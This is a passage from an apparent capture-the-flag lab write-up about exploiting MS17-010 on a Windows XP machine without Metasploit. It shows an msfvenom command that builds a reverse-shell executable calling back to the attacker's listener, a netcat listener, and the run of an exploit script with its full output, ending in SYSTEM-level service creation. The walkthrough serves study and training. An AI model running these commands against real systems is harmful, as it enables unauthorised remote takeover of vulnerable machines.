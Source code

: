```bash
 root@kali# nc -lnvp 443                                                                                                                                                       
 Ncat: Version 7.70 ( https://nmap.org/ncat )
 Ncat: Listening on :::443
 Ncat: Listening on 0.0.0.0:443
 Ncat: Connection from 10.129.1.111.
 Ncat: Connection from 10.129.1.111:1028.
 Microsoft Windows XP [Version 5.1.2600]
 (C) Copyright 1985-2001 Microsoft Corp.
 C:\WINDOWS\system32>
```
### MS17-010 (Without Metasploit)

There are few MS17-010 code available on GitHub, but I like to go with this one by Helviojunior. The 
name of code is send_and_execute.py, so we can upload the payload file using this exploit and run it.
Now, we can generate the exe file with msfvenom.

```bash
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.44 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse-shell.exe                                        
 No encoder specified, outputting raw payload
 Payload size: 324 bytes
 Final size of exe file: 73802 bytes
 Saved as: reverse-shell.exe
```
Also, I will open the netcat for listening.

```bash
 root@kali:/opt/MS17-010# python send_and_execute.py 10.129.1.111 reverse-shell.exe 
 Trying to connect to 10.129.1.111:445
 Target OS: Windows 5.1
 Using named pipe: browser
 Groom packets
 attempt controlling next transaction on x86
 success controlling one transaction
 modify parameter count to 0xffffffff to be able to write backward
 leak next transaction
 CONNECTION: 0x81b74c28
 SESSION: 0xe1bd1a70
 FLINK: 0x7bd48
 InData: 0x7ae28
 MID: 0xa
 TRANS1: 0x78b50
 TRANS2: 0x7ac90
 modify transaction struct for arbitrary read/write
 make this SMB session to be SYSTEM
 current TOKEN addr: 0xe22ed998
 userAndGroupCount: 0x3
 userAndGroupsAddr: 0xe22eda38
 overwriting token UserAndGroups
 Sending file GPHZ28.exe…
 Opening SVCManager on 10.129.1.111…..
 Creating service yDOZ…..
 Starting service yDOZ…..
 The NETBIOS connection with the remote host timed out.
 Removing service yDOZ…..
 ServiceExec Error on: 10.129.1.111
 nca_s_proto_error
```
